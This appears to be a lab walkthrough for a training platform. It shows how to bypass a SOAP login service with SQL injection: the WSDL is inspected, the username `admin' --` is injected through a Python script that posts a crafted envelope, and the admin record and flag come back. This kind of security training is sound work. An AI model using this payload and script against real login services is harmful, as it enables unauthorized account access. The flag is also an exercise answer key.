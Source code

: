 After spawning the target machine, students need to inspect the WSDL file of the SOAP service that resides in `http://STMIP:3002/wsdl?wsdl`, to find that there is a SOAPAction called `LoginRequest` with two parameters, `username` and `password`:

![[HTB Solutions/CBBH/z. images/853423e43ac3b7b356920e285be3a6e9_MD5.jpg]]

Thus, students need to specify `LoginRequest` within `<soap:Body>`, provide a SQLi that will allow users to login as `admin`, such as `admin' --` as the value for the `<username>` parameter, and provide any dummy password as value for the `<password>` parameter. Students need to use the following Python script to trigger the SQLi vulnerability of the service and reveal the flag `FLAG{1337_SQL_INJECTION_IS_FUN_:)}`:

```python
import requests

payload = "admin' --"
data = f'<?xml version="1.0" encoding="UTF-8"?> <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/" xmlns:tns="http://tempuri.org/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <soap:Body> <LoginRequest xmlns="http://tempuri.org/"> <username>{payload}</username> <password>fff</password> </LoginRequest> </soap:Body> </soap:Envelope>'

print(requests.post("http://STMIP:3002/wsdl", data=data, headers={"SOAPAction":'"Login"'}).content)
```
```shell
python3 sqli.py
```
```
┌─[us-academy-1]─[10.10.14.50]─[htb-ac413848@htb-q7l0dpr4ul]─[~]
└──╼ [★]$ python3 sqli.py

b'<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope
	xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:tns="http://tempuri.org/"
	xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
	<soap:Body>
		<LoginResponse
			xmlns="http://tempuri.org/">
			<id>0</id>
			<name>Administrator</name>
			<email>admin@htb.net</email>
			<username>admin</username>
			<password>FLAG{1337_SQL_INJECTION_IS_FUN_:)}</password>
		</LoginResponse>
	</soap:Body>
</soap:Envelope>'
```

Answer: `FLAG{1337_SQL_INJECTION_IS_FUN_:)}`